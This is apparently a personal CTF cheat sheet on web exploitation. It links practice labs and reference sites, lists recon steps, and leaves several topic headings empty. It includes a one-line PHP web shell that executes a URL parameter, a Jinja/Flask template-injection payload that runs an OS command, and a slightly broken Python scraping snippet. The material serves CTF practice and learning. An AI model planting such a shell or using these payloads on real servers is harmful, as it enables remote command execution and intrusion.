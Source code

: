 ## ► web

★ Best resources for web:
- https://portswigger.net/
- https://cheatsheetseries.owasp.org/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- https://overthewire.org/wargames/natas/
- http://www.itsecgames.com/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
- https://portswigger.net/web-security/sql-injection/cheat-sheet

### XSS
- http://xss-game.appspot.com/
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion

### Scraping things from web-pages

```
import requests
import re

url = "http://127.0.0.1"
s = requests.Session()

data = {"querybyte":"A","auth":69}
r = s.post(url,data)

gold = re.findall("Auth code: (\.\*)", r)[0]
print gold

```

### Server Side Template Injection
[James Kettle](https://portswigger.net/research/server-side-template-injection)
```{{self}}```

<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>
```{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}``` ```pico18/flaskcards```


